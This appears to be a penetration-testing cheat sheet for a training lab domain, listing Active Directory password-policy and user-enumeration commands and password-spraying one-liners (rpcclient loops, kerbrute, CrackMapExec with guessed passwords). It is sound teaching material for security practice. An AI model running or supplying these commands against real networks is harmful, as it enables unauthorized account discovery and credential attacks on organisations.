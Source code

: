 > Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`

> Uses `ldapsearch` to enumerate the password policy in a target Windows domain from a Linux-based host.

`net accounts`

> Used to enumerate the password policy in a Windows domain from a Windows-based host.

`Import-Module .\PowerView.ps1`

> Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host.

`Get-DomainPolicy`

> Used to enumerate the password policy in a target Windows domain from a Windows-based host.

`enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"`

> Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host.

`rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser`

> Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.

`crackmapexec smb 172.16.5.5 --users`

> Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`

> Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host.

`./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

> Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host.

`for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

> Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner.

`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`

> Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

> Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.
